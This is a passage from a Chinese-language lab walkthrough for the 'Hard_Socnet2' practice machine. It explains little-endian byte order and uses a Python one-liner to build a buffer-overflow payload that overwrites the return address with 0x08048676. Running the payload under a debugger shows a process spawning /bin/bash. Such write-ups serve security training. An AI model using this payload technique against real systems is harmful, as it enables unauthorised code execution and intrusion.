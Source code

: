       ![image-20240127161358326](Hard_Socnet2/image-20240127161358326.png)
      低位存放在低地址，说明该系统的数据存储方式是小端模式（计组)，且是 ASCII 值。首先 08048676 转换成 ASCII，然后逆序拼接。

17. 构造 payload：
      ```bash
      python -c "import struct; print('poc\n1\n1\n1\n' + 'A' * 62 + struct.pack('I', 0x08048676))" > payload
      # poc\n1\n1\n1\n 表示处理程序的前面部分，后面的部分就是真正起作用的部分
      ```

      > `struct.pack()` 的作用：
      > struct 将字节串解读为打包的二进制数据。
      > struct 模块可在 Python 值和以 Python bytes 对象表示的 C 结构体之间进行转换。此模块的函数和对象可被用于两种相当不同的应用程序，与外部源（文件或网络连接）进行数据交换，或者在 Python 应用和 C 层级之间进行数据传输。
      >
      > struct.**pack**(*format*, *v1*, *v2*, *...*)
      >     返回一个 bytes 对象，其中包含根据格式字符串 *format* 打包的值 *v1*, *v2*, ... 参数个数必须与格式字符串所要求的值完全匹配。
      >
      > 在默认情况下，C 类型将以所在机器的原生格式和字节顺序来表示，并在必要时通过跳过填充字节来正确地对齐（根据 C 编译器所使用的规则）。 （也就是说根据系统采用大端还是小端。
      >
      > https://docs.python.org/zh-cn/3/library/struct.html

      在靶机上执行，生成 payload 文件。
      启用 dbg 执行：
      ![image-20240127162934898](Hard_Socnet2/image-20240127162934898.png)
      注意到 2852 进程执行了 `/bin/bash`。
